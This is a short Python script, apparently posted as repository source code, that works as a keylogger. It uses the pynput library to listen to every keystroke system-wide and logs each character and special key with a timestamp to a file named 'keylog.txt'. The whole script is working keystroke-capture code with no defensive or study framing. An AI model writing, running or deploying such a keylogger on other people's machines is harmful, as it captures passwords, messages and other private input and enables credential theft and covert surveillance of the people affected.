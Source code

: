 from pynput.keyboard import Listener
import logging

log_file = "keylog.txt"
logging.basicConfig(filename=log_file, level=logging.DEBUG, format="%(asctime)s: %(message)s")
def on_press(key):
    try:
        logging.info(f"Key pressed: {key.char}")
    except AttributeError:
        logging.info(f"Special key pressed: {key}")

with Listener(on_press=on_press) as listener:
    listener.join()
